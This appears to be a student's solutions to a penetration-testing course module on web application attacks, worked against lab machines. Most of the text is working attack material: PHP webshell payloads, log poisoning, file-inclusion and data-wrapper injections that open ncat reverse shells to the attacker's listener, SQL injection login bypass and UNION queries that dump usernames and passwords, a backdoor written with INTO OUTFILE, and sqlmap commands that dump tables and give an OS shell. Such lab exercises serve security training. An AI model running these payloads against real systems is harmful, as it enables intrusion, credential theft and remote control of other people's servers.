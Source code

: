 = Solutions to exercises from Module 9: Web App Attacks

== 9.4.1.3

2. `INSERT INTO webappdb.users(username, password) VALUES('me', 'm2')`

== 9.4.2.6

2. The XSS vulnerability could be used to run a script on every machine that loads the site, for cryptomining. If the website allowed payments, scripts could be injected to read credit card data as it is input to the site.
3. The exploit attacks the clients of the site, since it requires the client to load the site to expose their session cookie.

== 9.4.4.5

2. We poison the logs with the line `<?php echo '<pre>' . shell_exec(base64_decode($_GET['cmd'])) . '</pre>';?>`
Then, to get a shell, we just submit the string of the output of the command `echo -n "ncat 192.168.119.224 4444 -e cmd.exe" | base64` as the `cmd` parameter

== 9.4.4.7

1. We use the same technique mentioned above, by exposing a file containing the above on a python HTTP server. 
2. The only difference here is to name the exposed file `current_menu.php`.
3. We start by getting the reverse shell script and renaming it `cp /usr/share/webshells/php/php_reverse_shell.php current_menu.php`.
Then, we replace the IP address, the port number, and the shell command to `cmd`, and start a python HTTP server.
Finally, we reload the URL with the remote path as the `file` parameter, and the script connects to our listener.

== 9.4.4.10

1. We use a data wrapper to retrieve the `ipconfig` of the server using
`http://192.168.224.10/menu.php?file=data:text/plain,%3C?php%20echo%20%27%3Cpre%3E%27%20.%20shell_exec($_GET[%27cmd%27])%20.%20%27%3C/pre%3E%27;?%3E&cmd=ipconfig`
2. We use the above to supply a cmd that opens a reverse shell back to our machine, using
`http://192.168.224.10/menu.php?file=data:text/plain,%3C?php%20echo%20%27%3Cpre%3E%27%20.%20shell_exec($_GET[%27cmd%27])%20.%20%27%3C/pre%3E%27;?%3E&cmd=ncat%20192.168.119.224%204444%20-e%20cmd.exe`

== 9.4.5.4

1. Using the `root/root` username/password pair we recovered earlier, we login into the phpmyadmin interface. There, we can run SQL query that results into a true value, like:

image::module_9/sql_inject_query.png[]

2. By using the input `tom' or 1=1 limit 1;#`, we force the SQL query to resolve to true, which allows us to login
3. Looking at the source code of the page (under `c:/xampp/htdocs/admin.php`), the application seems to read the value input into the username field, and set it to the `$_SESSION['user']` field, which is reused in that header.
4. We use the value `tom` for the username, and `' or 1=1 limit 1;#` for the password. Setting the limit to 1 is necessary because the web app needs an exact match of 1 to treat the query as a true value.

== 9.4.5.9

1. Using `debug.php?id=1 ORDER BY 4` returns an error, suggesting that there are only 3 columns in the database. We then use `debug.php?id=1 UNION SELECT 1, 2, table_name from information_schema.tables` to enumerate the list of tables
2. This is because the list of results is returned as a SQL cursor, and they simply iterate through every single row in that cursor, displaying the results directly into the HTML without escaping it.
3. We use `debug.php?id=1 UNION SELECT 1, username, password from users` to get the list of usernames and passwords.

== 9.4.5.11

1. First, we start by creating the backdoor file, using the URL `debug.php?id=1 union SELECT 1,2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'`
This allows us to pass any command we want.
2. Then, we simply  use the URL `backdoor.php?cmd=ncat%20192.168.119.224%204444%20-e%20cmd.exe` which opens a reverse shell with a local listener.

== 9.4.5.13

1. `sqlmap -u http://192.168.224.10/debug.php?id=1 -p "id" --dbms=mysql --dump` gives

```
Database: webappdb
Table: feedback
[2 entries]
+----+----------------------------------------------+------+
| id | text                                         | name |
+----+----------------------------------------------+------+
| 1  | Great tacos today!                           | Jake |
| 2  | I would eat tacos here every day if I could! | John |
+----+----------------------------------------------+------+
```

And 

```
Database: webappdb
Table: users
[2 entries]
+----+----------+--------------+
| id | username | password     |
+----+----------+--------------+
| 1  | admin    | p@ssw0rd     |
| 2  | jigsaw   | footworklure |
+----+----------+--------------+
```

2. `sqlmap -u http://192.168.224.10/debug.php?id=1 -p "id" --dbms=mysql --os-shell` gives us a shell
